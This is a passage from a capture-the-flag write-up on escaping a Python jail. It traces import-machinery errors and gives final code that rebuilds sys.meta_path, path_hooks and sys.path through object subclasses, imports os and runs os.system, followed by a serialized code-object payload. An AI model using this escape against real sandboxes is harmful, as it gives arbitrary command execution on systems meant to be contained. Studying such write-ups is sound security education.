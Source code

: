 This might be different from the one you get from your system **but** there will always be a commun part: ['/usr/lib/python3.10'].

As we did above, we can take everything & then remove an element each time & check if it'll work out or nah.

And a different error:

```
Exception ignored in: <function A.__del__ at 0x7fa4666e7f40>
Traceback (most recent call last):
  File "/home/m0ngi/CTF-Tasks/pyjail/jail 4/solve.py", line 53, in f
  File "<frozen importlib._bootstrap>", line 1027, in _find_and_load
  File "<frozen importlib._bootstrap>", line 1002, in _find_and_load_unlocked
  File "<frozen importlib._bootstrap>", line 945, in _find_spec
  File "<frozen importlib._bootstrap_external>", line 1439, in find_spec
  File "<frozen importlib._bootstrap_external>", line 1408, in _get_spec
  File "<frozen importlib._bootstrap_external>", line 1372, in _path_importer_cache
TypeError: 'NoneType' object is not subscriptable
```

We keep going! This is the block:

```python
try:
    finder = sys.path_importer_cache[path]
except KeyError:
    finder = cls._path_hooks(path)
    sys.path_importer_cache[path] = finder
return finder
```

To be specific, `finder = sys.path_importer_cache[path]`.

We can check that `path_importer_cache` is set to **None** too. If we look at the code, we can see that this is somekind of a module cache. We can either try to construct it OR we can relay on the exception handler to find it & upcate. So we can use an empty dict {} for this.

The next error would help to reinit the value of `path_hooks`.
And now we can import!

Final code:

```python
def f(x):
    x = [].__class__.__base__.__subclasses__()
    sys.meta_path = [x[104], x[121]]
    sys.path_importer_cache = {}
    sys.path_hooks = [x[122].path_hook(( (x[118].__subclasses__()[0], ['.py']) ))]
    sys.path = ['/usr/lib/python3.10']
    import os
    os.system('ls')
```

And this gives:

```python
(1, 0, 0, 2, 4, 67, b'g\x00j\x00j\x01\xa0\x02\xa1\x00}\x00|\x00d\x01\x19\x00|\x00d\x02\x19\x00g\x02t\x03_\x04i\x00t\x03_\x05|\x00d\x03\x19\x00\xa0\x06|\x00d\x04\x19\x00\xa0\x02\xa1\x00d\x05\x19\x00d\x06g\x01f\x02\xa1\x01g\x01t\x03_\x07d\x07g\x01t\x03_\x08d\x05d\x00l\t}\x01|\x01\xa0\nd\x08\xa1\x01\x01\x00d\x00S\x00', (None, 104, 121, 122, 118, 0, '.py', '/usr/lib/python3.10', 'ls'), ('__class__', '__base__', '__subclasses__', 'sys', 'meta_path', 'path_importer_cache', 'path_hook', 'path_hooks', 'path', 'os', 'system'), ('x', 'os'), '/home/m0ngi/CTF-Tasks/pyjail/jail 4/solve.py', 'f', 49, b'\x0c\x01\x12\x01\x06\x01$\x01\x08\x01\x08\x01\x0e\x01', (), ())
```
